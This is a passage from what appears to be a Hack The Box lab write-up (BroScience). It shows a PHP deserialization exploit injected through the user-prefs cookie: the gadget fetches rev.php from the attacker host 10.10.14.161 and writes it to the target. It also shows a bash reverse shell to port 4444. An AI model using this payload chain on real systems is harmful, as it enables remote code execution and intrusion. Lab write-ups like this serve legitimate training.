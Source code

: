 ### Exploitation

We'll no change the **class Avatar** code up a little to generate serialized data that we will inject using the **user-prefs** cookie.  

#### serialized.php

```php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.161/rev.php";
    public $imgPath = "./rev.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$serialized = base64_encode(serialize(new AvatarInterface));
echo $serialized
?>
```

```bash
┌──(mrk㉿oscp)-[~/Dokumente/htb/lab/broscience]
└─$ php serialized.php               
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyNzoiaHR0cDovLzEwLjEwLjE0LjE2MS9yZXYucGhwIjtzOjc6ImltZ1BhdGgiO3M6OToiLi9yZXYucGhwIjt9
```

#### rev.php

```php
<?php
  system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.161/4444 0>&1'");
?>
```

#### Shell
